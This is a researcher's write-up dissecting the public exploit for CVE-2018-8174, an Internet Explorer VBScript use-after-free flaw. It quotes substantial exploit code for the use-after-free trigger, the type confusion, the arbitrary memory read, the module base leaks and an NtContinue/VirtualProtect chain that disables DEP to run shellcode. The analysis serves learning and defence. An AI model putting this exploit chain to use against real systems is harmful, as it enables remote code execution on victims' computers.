






# Dissecting modern browser exploit: case study of CVE-2018-8174

## Overview

When this exploit first emerged in the turn of April and May it spiked my interest, since despite heavy obfuscation, the code structure seemed well organized and the vulnerability exploitation code small enough to make analysis simpler. I downloaded POC from github [1] and decided it would be good candidate for taking a look under the hood. At that time already two analysis were available, one from [360](http://blogs.360.cn/blog/cve-2018-8174-en/) and one from [Kaspersky](https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/). Both of them helped me understand how it worked, but were not enoguh to deeply understand every aspect of the exploit. Thats why I decided to analyze it on my own and describe my findings. 

## Preprocessing

First to remove integer obfuscation I used regex substitution in python script:

```python
import re
def process(matchobj):
	line = matchobj.group(1)
	line = line.lower().replace('&h', '0x')
	return str(eval(line))			# extremly safe :) 

data = open('analysis.vbs', 'r').read()	
result = re.sub('\((&h[^\)]+)\)', process, data)
open('result.vbs', 'w').write(result)
```

As to obfuscated names, I renamed them progressively during analysis. This analysis is best to be read with source code, link is at the end.

## Use after free
Vulnerability occurs, when object is terminated and custom defined function `Class_Terminate()` is called. In this function reference to the object being freed is saved in `UafArray`. From now on `UafArray(i)` referes to deleted object.

```vb
Class ClassTerminateA
Private Sub Class_Terminate()
	Set UafArrayA(UafCounter)=FreedObjectArray(1)
	UafCounter=UafCounter+1
	FreedObjectArray(1)=1	' fix ref counter
End Sub
End Class
...
UafCounter=0	
For idx=0 To 6
	ReDim FreedObjectArray(1)
	Set FreedObjectArray(1)=New ClassTerminateA
	Erase FreedObjectArray
Next
```

Also notice last line in `Class_Terminate()`, when we copy `ClassTerminate` object to `UafArray` its reference counter is increased, to balance it out we again free it by assigning other value to `FreedObjectArray`. Without this, object's memory wouldn't be freed despite calling `Class_Terminate` on it and next object wouldn't be allocated in its place.



Creating and deleting new objects is repeated 7 times in a loop, after that a new object of class `ReuseClass` is created. It is allocated in the same memory that was previously occupied by the 7 `ClassTerminate` instances.
To better understand that, here is simple `WinDbg` script that tracks those allocations:

	bp vbscript!VBScriptClass::TerminateClass ".printf \"Class %mu at %x, terminate called\\n\", poi(@ecx + 0x24), @ecx; g";
	bp vbscript!VBScriptClass::Release ".printf \"Class %mu at: %x ref counter, release called: %d\\n\", poi(@eax + 0x24), @ecx, poi(@eax + 0x4); g";
	bp vbscript!VBScriptClass::Create+0x55 ".printf \"Class %mu created at %x\\n\", poi(@esi + 0x24), @esi; g";

Here is allocation log from `UafTrigger` function:

    Class EmptyClass created at 3a7d90
    Class EmptyClass created at 3a7dc8
    ...
    Class ReuseClass created at 22601a0
    Class ReuseClass created at 22601d8
    Class ReuseClass created at 2260210
    ...
    Class ClassTerminateA created at 22605c8
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 1
    Class ClassTerminateA at 22605c8, terminate called
    Class ClassTerminateA at: 70541748 ref counter, release called: 5
    Class ClassTerminateA at: 70541748 ref counter, release called: 4
    Class ClassTerminateA at: 70541748 ref counter, release called: 3
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA created at 22605c8
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    Class ClassTerminateA at: 70541748 ref counter, release called: 1
    Class ClassTerminateA at 22605c8, terminate called
    Class ClassTerminateA at: 70541748 ref counter, release called: 5
    Class ClassTerminateA at: 70541748 ref counter, release called: 4
    Class ClassTerminateA at: 70541748 ref counter, release called: 3
    Class ClassTerminateA at: 70541748 ref counter, release called: 2
    ...
    Class ReuseClass created at 22605c8
    ...
    Class ClassTerminateB created at 2260600
    Class ClassTerminateB at: 70541748 ref counter, release called: 2
    Class ClassTerminateB at: 70541748 ref counter, release called: 2
    Class ClassTerminateB at: 70541748 ref counter, release called: 2
    Class ClassTerminateB at: 70541748 ref counter, release called: 1
    Class ClassTerminateB at 2260600, terminate called
    Class ClassTerminateB at: 70541748 ref counter, release called: 5
    Class ClassTerminateB at: 70541748 ref counter, release called: 4
    Class ClassTerminateB at: 70541748 ref counter, release called: 3
    Class ClassTerminateB at: 70541748 ref counter, release called: 2
    ...
    Class ReuseClass created at 2260600

We can immediately see that `ReuseClass` is indeed allocated in the same memory that was assigned to 7 previous instances of `ClassTerminate`
This is repeated two times. We end up with two object referenced by `UafArrays`. None of that references is reflected in objects reference counter.
In this log we can also notice that even after `Class_Terminate` was called there are some object manipulations that change its reference counter.
That's why if we didn't balance this counter in `Class_Terminate` we would get something like that:

	Class ClassTerminateA created at 2240708
	Class ClassTerminateA at: 6c161748 ref counter, release called: 2
	Class ClassTerminateA at: 6c161748 ref counter, release called: 2
	Class ClassTerminateA at: 6c161748 ref counter, release called: 2
	Class ClassTerminateA at: 6c161748 ref counter, release called: 1
	Class ClassTerminateA at 2240708, terminate called
	Class ClassTerminateA at: 6c161748 ref counter, release called: 5
	Class ClassTerminateA at: 6c161748 ref counter, release called: 4
	Class ClassTerminateA at: 6c161748 ref counter, release called: 3
	Class ReuseClass created at 2240740

Different allocation addresses. Exploit would fail to create use after free condition.

## Type Confusion

Having created those two object with 7 uncounted references to each, we establish **read arbitrary memory primitive**.
There are two similar classes `ReuseClass` and `FakeReuseClass`. By replacing first class with second one a **type confusion** on `mem` member occurs. 

```vb
Class ReuseClass
Dim mem
Function P
End Function
Function SetProp(Value)
	mem=Value				' will actually call Default Poperty Get
	SetProp=0
End Function
End Class

Class FakeReuseClass
Dim mem
Function ReadBstrValll
	ReadBstrValll=LenB(mem(some_memory+8))
End Function
Function Q
End Function
End Class
```

In `SetProp` function `ReuseClass.mem` is saved and `Default Property Get` of class `ReplacingClass_*` is called, result of that call will be placed in `ReuseClass.mem`.

```vb
Public Default Property Get Q
	Dim objectImitatingArray
	Q=CDbl("174088534690791e-324")		'hex value: db 0, 0, 0, 0, 0Ch, 20h, 0, 0
	For idx=0 To 6
		UafArrayA(idx)=0
	Next
	Set objectImitatingArray=New FakeReuseClass
	objectImitatingArray.mem = FakeArrayString
	For idx=0 To 6
		Set UafArrayA(idx)=objectImitatingArray
	Next
End Property
```

Inside that getter `UafArray` is emptied by assigning 0 to each element. This causes `VBScriptClass::Release` to be called on `ReuseClass` object that is referenced by 
`UafArray`. It turns out that at this stage of execution `ReuseClass` object has reference counter equal to 7, since we call `Release` 7 times, this object gets freed. And because those references came from use after free situation they are not accunted for in reference counter.
In place of `ReuseClass` a new object of `FakeReuseClass` is allocated. Now to get its reference counter to 7, as was the case with `ReuseClass` we assign it 7 times to `UafArray`.
Here is memory layout before and after this operation.




After this is done the getter function will return a value that will be assigned to the old `ReuseClass::mem` variable. As can be seen on memory dumps, old value was placed 0xc bytes before the new one. Objects were specially crafted to cause this situation, for example by selecting proper length for function names. Now value written to `ReuseClass::mem` will overwrite `FakeReuseClass::mem` header, causing type confusion situation. 



```vb
FakeArrayString=Unescape("%u0001%u0880%u0001%u0000%u0000%u0000%u0000%u0000%uffff%u7fff%u0000%u0000") 'SAFEARRAY structure as string
Empty16BString=Unescape("%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u0000") 'String with nulls, used as memory to write to

objectImitatingArray.mem = FakeArrayString
```

Last line assigned string `FakeArrayString` to `objectImitatingArray.mem`. Header now has value `VT_BSTR`

```vb
Q=CDbl("174088534690791e-324") ' db 0, 0, 0, 0, 0Ch, 20h, 0, 0
```

This value overwrote `objectImitatingArray.mem` type to `VT_ARRAY | VT_VARIANT` and now pointer to string will be interpreted as pointer to `SAFEARRAY` structure


## Arbitrary memory read 

The result is that we end up with two objects of `FakeReuseClass`. One of them has as `mem` member array that is addressing whole user-space (`0x00000000 - 0x7fffffff`) and the other has member of type `VT_I4` (4 byte integer) with pointer to an empty 16 byte string. Using the second object a pointer to string is leaked:

```vb
some_memory=resueObjectB_int.mem
```

It will be later used as address in memory that is writable. 
Next step is to leak any address inside `vbscript.dll`. Here a very neat trick is used.

```vb
Function LeakVBAddr
	On Error Resume Next
	Dim emptySub_addr_placeholder
	emptySub_addr_placeholder=EmptySub
	emptySub_addr_placeholder=null
	SetVarData emptySub_addr_placeholder
	LeakVBAddr=ReadRawPointer()
End Function
```

First we define that on error, script should just continue regular execution. After that there is an attempt to assign EmptySub to a variable. This is not possible in VBS but still value is pushed on the stack before error is generated. Next instruction should assign null to the variable, and it does, by simply changing type of last value from the stack to `VT_NULL`. Now `emptySub_addr_placeholder` holds pointer to the function but with type set to `VT_NULL`.

```vb
Function ReadRawPointer
	resueObjectA_arr.mem(some_memory)=3						' set var type to type vbLong 
	ReadRawPointer=resueObjectA_arr.mem(some_memory+8)		' read data as vbLong
End Function
Sub SetVarData(ByRef ref)
	resueObjectA_arr.mem(some_memory+8)=ref				' set data
End Sub
```

Then this value is written to our writable memory, its type is changed to `VT_I4` and it is read back as integer. 
If we check the content of this value it turns out to be a pointer to `CScriptEntryPoint` and first member is `vftable` pointing inside `vbscript.dll`


To read value from arbitrary address, in this case pointer returned from `LeakVBAddr`, following functions are used:

```vb
Function GetUint32(addr)
	Dim value
	resueObjectA_arr.mem(some_memory+8)=addr+4		' set value as BSTR ptr + 4 (BSTR obj: [len][addr+4], LenB will read from [len] == [addr]
	resueObjectA_arr.mem(some_memory)=8				' set type to VT_BSTR
	value=resueObjectA_arr.ReadBstrValll
	resueObjectA_arr.mem(some_memory)=2				' set type to original VT_I2
	GetUint32=value
End Function
Function ReadBstrValll
	ReadBstrValll=LenB(mem(some_memory+8))
End Function
```

Read is acheived by first writing address+4 to writable memory, then type is changed to `VT_BSTR`. Now address+4 is treated as pointer to `BSTR`.
If we call `LenB` on address+4 it will return value pointed to by address. Why? Because of how `BSTR` is defined, unicode value is proceeded by it's length, and that length is returned by `LenB`.



Now when address inside `vbscript.dll` was leaked, and having established arbitrary memory read it is a matter of properly traversing PE header to obtains all needed addresses.

```vb
vbscript=FindMzBase(GetUint32(ptr_toCScriptEntryPointVTble))
msvcrt=GetDllBaseFromExport(vbscript,"msvcrt.dll")
kernelbase=GetDllBaseFromExport(msvcrt,"kernelbase.dll")
ntdll=GetDllBaseFromExport(msvcrt,"ntdll.dll")
VirtualProtect=GetProcAddr(kernelbase,"VirtualProtect")
NtContinue=GetProcAddr(ntdll,"NtContinue")
```

Details of doing that won't be explained here. [This article explains PE file in great details.](https://msdn.microsoft.com/en-us/library/ms809762.aspx)

## Triggering code execution

Final code execution is achived in two steps. First a chain of two calls is build, but it's not a ROP chain. NtContinue is provided with `CONTEXT` structure that sets EIP to VirtualProtect address, and ESP to structure containing VirtualProtect's parameters. 

```vb
Function VirtualProtectCallParameters(shellcodePtr)
	Dim result
	result = String(10000,Unescape("%u4141"))    		' 'A' * 0x10fdc - padding, this space will be used as stack
	result = result & UnescapeValue(shellcodePtr)		' &shellcode - address to return to after VirtualProtect
	result = result & UnescapeValue(shellcodePtr)		' &shellcode - lpAddress	(1st param for VirtualProtect)
	result = result & UnescapeValue(12288)			' 0x3000 - size (2nd param for VirtualProtect)
	result = result & UnescapeValue(64)			' 0x40 	- newProtect (3rd param for VirtualProtect) 
	result = result & UnescapeValue(shellcodePtr-8)		' &(shellcode-8) - lpOldProtect (4th param for VirtualProtect)
	result = result & String(6,Unescape("%u4242"))		' 'B' * 12	- padding and allignment
	result = result & StructWithNtContinueAddr()		' \x00 * 3  NtContinue * 4 \x00
	result = result & String((524288-LenB(result))/2,Unescape("%u4141"))' 'A' * (0x80000 - current_size) - padding
	VirtualProtectCallParameters = result
End Function

Function StructForNtContinue(structForVirtualProtect)
	Dim result
	Dim ntContinuePtr
	ntContinuePtr = structForVirtualProtect + 35
	result = ""
	result = result & UnescapeValue(ntContinuePtr)
	result = result & String((184-LenB(result))/2,Unescape("%u4141")) ' 'A' * 0xb8  - initalize _CONTEXT with 'A'
	result = result & UnescapeValue(VirtualProtect)		' VirtualProtect - _EIP in _CONTEXT struct
	result = result & UnescapeValue(27)			' 0x1b - CsSeg in _CONTEXT struct
	result = result & UnescapeValue(0)			' 0x00 - EFLAGS in _CONTEXT struct
	result = result & UnescapeValue(structForVirtualProtect) ' structForVirtualProtect - _ESP in _CONTEXT struct
	result = result & UnescapeValue(35)			' 0x23 - SsSeg in _CONTEXT struct
	result = result & String((1024-LenB(result))/2,Unescape("%u4343")) ' 'A' * (0x400 - current_size) - padding
	StructForNtContinue = result
End Function

SetVarData GetShellcode()
shellcodePtr = ReadRawPointer() + 8
SetVarData VirtualProtectCallParameters(shellcodePtr)
structForVirtualProtect = ReadRawPointer() + 20000
SetVarData StructForNtContinue(structForVirtualProtect)
```

First address of shellcode is obtained using previously described technique of changing variable type to `VT_I4` and reading pointer. 
Next a structure for VirtualProtect is build, it contains all necessary parameters, like shellcode address, size and RWX protections. It also has space that will be used by stack operations inside VirtualProtect. After that a `CONTEXT` structure is built, with EIP set to VirtualProtect and ESP to its parameters. This structure also has as  first value a pointer to NtContinue address repeated 4 times. 
Final step before starting this chain is to save the structure as string in memory.

```vb
Sub TriggerCodeExecution
	resueObjectA_arr.mem(some_memory)=&h4d
	resueObjectA_arr.mem(some_memory+8)=0
End Sub
```

This function is then used to start the chain. First it changes type of the saved structure to 0x4D and then it sets value to 0, this causes `VAR::Clear` to be called.



And a dynamic view from debugger



Although it might seem complicated this chain of execution is very simple. Just two steps. Invoke NtContinue with CONTEXT structure pointing to VirtualProtect. Then VirtualProtect will disable DEP on memory page that contains the shellcode and after that it will return into the shellcode.

## Conclusion

CVE-2018-8174 is a good example of chaining few use after free and type confusion conditions to achive code execution in very clever way. It's a great example to learn from and understand inner workings of such exploits.

## Useful links
[Commented exploit code](https://github.com/piotrflorczyk/cve-2018-8174_analysis/blob/master/analysis.vbs)

[Kaspersky's root cause analysis](https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/)

[360's analysis](http://blogs.360.cn/blog/cve-2018-8174-en/) 

[Another Kaspersky's anlysis](https://securelist.com/delving-deep-into-vbscript-analysis-of-cve-2018-8174-exploitation/86333/)

[CVE-2014-6332 analysis by Trend Micro](https://blog.trendmicro.com/trendlabs-security-intelligence/a-killer-combo-critical-vulnerability-and-godmode-exploitation-on-cve-2014-6332/)
